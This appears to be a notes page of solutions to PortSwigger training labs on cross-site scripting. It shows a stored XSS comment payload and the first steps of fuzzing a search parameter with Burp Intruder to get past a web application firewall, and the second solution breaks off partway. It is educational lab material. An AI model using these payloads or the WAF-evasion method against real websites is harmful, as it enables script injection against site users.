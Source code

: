 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518001258.png)

### Stored XSS into HTML context with nothing encoded
```bash

# This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality.

# To solve this lab, submit a comment that calls the `alert` function when the blog post is viewed.

Go to: "View post"
Add a comment
Comment:

<script>alert(1)</script>

Name:

name

Email:

email@email.com

```

### Reflected XSS into HTML context with most tags and attributes blocked
```bash

# This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

# To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the WAF and calls the `print()` function.

# Your solution must not require any user interaction. Manually causing `print()` to be called in your own browser will not solve the lab.

Enter "<script>alert(1)</script>" into the search option
Note the response:

"Tag is not allowed"

Go to: HTTP history
Find:

GET /?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E HTTP/1.1

Send to intruder

GET /?search=<§§> HTTP/1.1

Utilize the "Copy tags to clipboard" functionality for "All tags" @

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Go to: Payloads
Payload Optionsp[Simple list]
Paste the "All tags" list
Start attack

```